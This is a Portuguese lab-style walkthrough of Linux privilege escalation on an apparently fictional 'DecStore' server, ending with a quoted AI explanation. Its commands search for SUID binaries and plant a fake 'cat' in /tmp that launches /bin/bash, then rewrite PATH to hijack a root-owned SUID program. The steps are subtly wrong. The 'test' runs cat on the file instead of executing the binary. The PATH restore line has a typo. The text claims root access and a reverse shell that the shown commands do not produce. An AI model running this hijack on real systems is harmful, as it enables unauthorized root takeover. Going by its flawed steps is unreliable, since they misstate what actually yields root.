




---

>Titulo: Dia 3.5 - Escalação de Privilégio
>
>Fase: post-exploration
>
>Dia: 3

[PATH-Hijacking](../../0-assets/vulnerabilities/PATH-Hijacking.md)


---

Perfeito, já conseguimos acesso a máquina da DecStore, mas o acesso que nós temos, é do usuário "www-data", este não é um usuário administrador, então vamos agora, 

utilizar um método para garantir acesso root ao servidor.

```python
## Vamos verificar permissões dos arquivos
find / -perm -u=s -type f 2>/dev/null
```

###### Explicação do código:

```python
find        | Comando para buscar arquivos no sistema
/           | Inicia a busca a partir do diretório raiz
-perm       | Filtra arquivos por permissões
-u=s        | Retorna arquivos com bit SUID ativo
-type f     | Limita a busca a arquivos regulares                  
2>          | Redireciona a saída de erro (stderr)                 
/dev/null   | Descarta mensagens de erro como "Permission denied"
```


Onde com este comando, será retornado os seguintes arquivos:



Perceba que são arquivos padrão do sistema, como sudo, passwd, ping...
Mas um arquivo aí chama a atenção, ele é difente, o arquivo "/script/backup".

Vamos verificar quais arquivos tem permissões para entendermos melhor a estrutura:



###### Explicando SUID
 O que o SUID faz:

> Quando um usuário executa esse arquivo,  
> ele roda **como se fosse o dono do arquivo**,  
> não como o usuário atual.

Exemplo prático (passwd)

```python
/usr/bin/passwd
dono: root 
SUID: ativo
```

Mesmo você sendo `www-data`:

- Ao executar `passwd`
    
- Ele roda **com privilégio de root**
    
- Senão, ninguém conseguiria trocar senha.
---
###### Agora o perigo: `/script/backup`

`-rwsr-sr-x root root /script/backup`

O que chama atenção:

- Não é binário padrão do sistema
    
- Está fora de `/bin`, `/usr/bin`, `/sbin`
    
- Tem **SUID ativo**
    
- Pertence ao **root**
   

Isso significa:

> Se esse script tiver qualquer falha,  
> você pode executar comandos como root.

---
Agora vamos explorar essa vulnerabilidade:

```python
## Vamos ao diretório
cd /script/
ls -la

-rwsr-sr-x root root /script/backup

## Vamos verificar que tipo de arquivo é

file backup
### Vemos que ele é um binário, vamos tentar executar

./backup
### Erro, mas ele tenta chamar um cat e falha
```

Temos essa resposta:



Mas vamos tentar modificar o comando "CAT", para se tornar algo malicioso e que permita escalar privilégio. 

```python
## Vamos ver onde está o binário do comando
which cat
> /bin/cat

## Vamos tentar renomear o arquivo do cat
mv /bin/cat /bin/cat-old
### Permission denied
```

Falhou, mas vamos tentar utilizar variáveis de ambiente para tentar explorar uma vulnerabilidade aqui.
Será que conseguimos criar um cat falso e manupular as variáveis de ambiente para rodar ele como root?

---

Vamos para o diretório `/tmp/`, pois é um diretório do sistema que podemos escrever nele, mesmo sem permissões de root.

```python
cd /tmp

## Vamos escrever um arquivo aqui dentro
echo "/bin/bash" > cat
### Criamos o arquivo mas ele não tem permissão

## Vamos dar permissão para ele
chmod 777 /tmp/cat

## Agora vamos analisar as variáveis de ambiente
export
```

Onde podemos ver alguns arquivos:



Basicamente o comando "export" nos mostra algumas configurações pré definidas de funcionamento do nosso sistema.
Na linha "PATH=", seria a responsável por:
>Toda vez que o usuário executar um comando, verifique nesse diretório se ele existe.

Assim sabendo, percebemos o poder dessa variável e que o usuário pode modificar o PATH do próprio ambiente,  
e o binário SUID herda esse ambiente, se não for protegido.

Vamos direcionar o nosso comando malicioso no lugar de /bin.

```python
export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/tmp"
```

Agora quando quisermos utilizar o comando "CAT", o sistema vai automaticamente procurar no diretório "/tmp", por um arquivo chamado "CAT".
Porém, este é o nosso cat malicioso, que quando executado, irá rodar o /bin/bash, assim permitindo acesso root.
Vamos testar:

```python
## Preciso explicar porque ser este arquivo
cat /script/backup
```

E agora, de forma magnífica, temos acesso root ao servidor da DecStore.
Mas, para o sistema voltar a funcionar, vamos voltar a configuração antiga, para não quebrar o sistema.

```python
export PATH="/usr/local/sbiin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```

E temos controle total do sistema como root, e com Shell Reverso na máquina atacante.

---

Agora caso tenha ficado em dúvida de porque usamos o arquivo "/script/backup" para escalar privilégio, como eu, a IA respondeu:

##### Resposta da IA
```python
## 🎯 POR QUE O `/script/backup`?

### Resposta curta (frase única):

> Porque ele é um **binário SUID rodando como root** que **chama comandos externos sem caminho absoluto**.

Agora vamos destrinchar.

---

### 🔍 O que torna um SUID explorável?

Um arquivo SUID **só vira vetor de escalada** se ele fizer algo como:

- Executar comandos do sistema (`cat`, `ls`, `cp`, `tar`, etc)
    
- Chamar comandos **sem caminho absoluto**
    
- Não limpar variáveis de ambiente (`PATH`, `LD_PRELOAD`, etc)
    

Exemplo perigoso dentro do código do `backup` (conceitual):

`system("cat /algum/arquivo");`

Em vez de:

`system("/bin/cat /algum/arquivo");`

---

### 🔑 O erro do desenvolvedor

O desenvolvedor do `/script/backup` cometeu **dois erros graves**:

1. Tornou o binário **SUID root**
    
2. Usou comandos externos confiando no `PATH`
    

Isso permite:

> “Se eu controlar o PATH, eu controlo o que o root executa”

---

### 🧠 Por que não os outros SUIDs?

Você mesmo listou:

- `/usr/bin/passwd`
    
- `/usr/bin/sudo`
    
- `/bin/ping`
    

Eles:

- São binários auditados
    
- Usam caminhos absolutos
    
- Limpam variáveis de ambiente
    
- Têm proteções internas
    

👉 **Não são exploráveis facilmente**

Já o `/script/backup`:

- Customizado
    
- Fora do padrão
    
- Sem hardening
    
- Provavelmente escrito às pressas
    

👉 **Alvo perfeito**
```
---
